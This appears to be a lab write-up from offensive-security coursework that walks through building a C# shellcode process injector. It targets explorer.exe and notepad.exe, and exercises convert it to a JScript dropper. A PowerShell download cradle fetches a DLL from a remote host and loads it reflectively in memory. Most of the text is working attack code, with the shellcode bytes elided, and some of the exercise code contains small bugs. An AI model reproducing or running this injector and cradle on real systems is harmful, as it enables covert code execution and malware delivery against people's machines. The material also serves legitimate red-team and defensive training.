

## Visual Studio FTW
We start by creating yet another project in Visual Studio.
We'll once again, choose the ConsoleApp project.

We start by importing our 4 required APIs. For this, we'll be using our friendly neighborhood p/invoke.net 

We'll also state the 2 namespaces needed for the development of our process injector:
```C#
using System;
using System.Runtime.InteropServices;

namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        
        static void Main(string[] args)
        {
        }
    }
}
```

With the function in place, we can call it, with the following arguments:
1. dwDesiredAccess - PROCESS_ALL_ACCESS -  0x001F0FFF(hex value)
			- this will give us complete access over the explorer.exe process.
2. bInheritHandle - false 
3. dwProcessId - The process ID of explorer.exe

We call the function and put in the arguments:
```c#
IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
```

With our channel from one process to another, we must allocate memory with _VirtualAllocEx_
We perform another import, call the function and provide the following arguments:
1. hProcess - process handle of explorer.exe
2. lpAddress - Desired address of allocation (default for API to decide)
3. dwSize - desired allocation
4. flAllocationType - allocation type
5. flProtect - memory protections

We import the function with:
```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, 
  uint dwSize, uint flAllocationType, uint flProtect);
```

and call it with:
```C#
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
```

We create a variable for our shellcode and move on to using _WriteProcessMemory_ to copy or shellcode memory space of explorer.exe

The function takes 4 arguments:
1. hProcess - the handle
2. lpBaseddress - newly allocated memory
3. lpBuffer - address of byte array containing the shellcode
4. nSize - size of the shellcode
5. lpNumberOfBytesWritten - location pointer in memory to ouput how much data copied.

We call and invoke the function as follows:
```C#
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```
```C#
IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```

We call our final API to execute the shellcode:
The _CreateRemoteThread_ function takes 7 arguments:
1. hProcess - process handle
2. lpThreadAttributes - desired security descriptors (set to 0 for default values)
3. dwStackSize - allowed stack size (set to 0 for default values)
4. lpStartAddress - address of the allocated buffer of shellcode
5. lpParameter - variables to be passed to the thread function pointed by the argument(set to 0 as no need for any parameters)
6. dwCreationFlags - flags to include(set to 0)
7. lpThreadid - output variable for thread(set to 0)

We again import and call the function as follows:
```C#
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, 
    uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, 
        IntPtr lpThreadId);
```
```C#
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

Our final code looks like so:
```C#
using System;
using System.Runtime.InteropServices;


namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        static void Main(string[] args)
        {
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[591] {
            0xfc,0x48,..,0xff,0xd5 };
                        IntPtr outSize;
            
			WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

We compile the project and execute it to get a shell in explorer.exe:


## Exercise
To create a jscript file, we use the ExampleAssembly project in DotNetToJscript.
We also use the GetProceessByName method to get process dynamically

```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    public TestClass()
    {
        Process[] localByName = Process.GetProcessesByName("notepad");
		int procid = localByName[0].Id
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, localByName);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

        byte[] buf = new byte[641] {
        0xfc,0x48,....,0xff,0xd5 };
        IntPtr outSize;

        WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```

We compile the code into a dll and use DotNetToJscript to create a js file which gets us a shell upon execution.

For the next exercise, we'll first create a dll using the .NET framework with the following code:
```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
    public class Class1
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        public static void runner()
        {
            System.Diagnostics.Process.Start(@"C:\Windows\System32\notepad.exe");
            Process[] localByName = Process.GetProcessesByName("notepad");
            int procId = localByName[0].Id;
            
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, procId);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            byte[] buf = new byte[674] {
            0xfc,0xe8,....,0xff,0xd5 };
            IntPtr outSize;

            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}

```
We will then compile this into a dll, and use the following powershell code to get it executed:
```Powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.150/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)